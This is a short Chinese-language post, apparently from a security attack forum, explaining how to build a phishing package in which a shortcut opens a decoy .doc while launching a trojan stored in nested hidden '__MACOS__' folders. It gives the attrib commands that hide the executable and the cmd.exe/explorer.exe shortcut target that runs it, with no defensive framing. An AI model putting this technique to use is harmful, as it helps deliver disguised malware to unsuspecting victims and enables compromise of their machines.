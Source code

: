 钓鱼样本结构为如下，打开文件夹是一个快捷方式和一个隐藏文件夹。在隐藏文件夹存在多级目录，最后一级目录放真实木马文件

![image-20230801160933394](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-f6db8e42869603226de0ded056e29924ccdbdb38.png)

在`MACOS`文件夹下为真实的木马，对文件夹设置隐藏

```php
attrib +s +h +r C:\\Users\\Public\\xxx.exe  
attrib -s -h -r C:\\Users\\Public\\xxx.exe
```

![image-20230801161034778](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-990db4d24dac0c87e233d76ab5959e7dae100d69.png)

根目录下的快捷方式修改目标属性，相对路径指向真实的马儿

```php
%windir%\\system32\\cmd.exe /c start .\\.\_\_MACOS\_\_\\.\_\_MACOS\_\_\\.\_\_MACOS\_\_\\.\_\_MACOS1\_\_\\xxx.doc && C:\\Windows\\explorer.exe ".\\.\_\_MACOS\_\_\\.\_\_MACOS\_\_\\.\_\_MACOS\_\_\\.\_\_MACOS1\_\_\\xxx.exe"  
C:\\Windows\\explorer.exe ".\\.\_\_MACOS\_\_\\.\_\_MACOS\_\_\\.\_\_MACOS\_\_\\.\_\_MACOS1\_\_\\xxx.exe"
```

![image-20230801161135119](https://shs3.b.qianxin.com/attack_forum/2023/08/attach-9475760633c5a1c7a7567c0243ee6182e9cea4e5.png)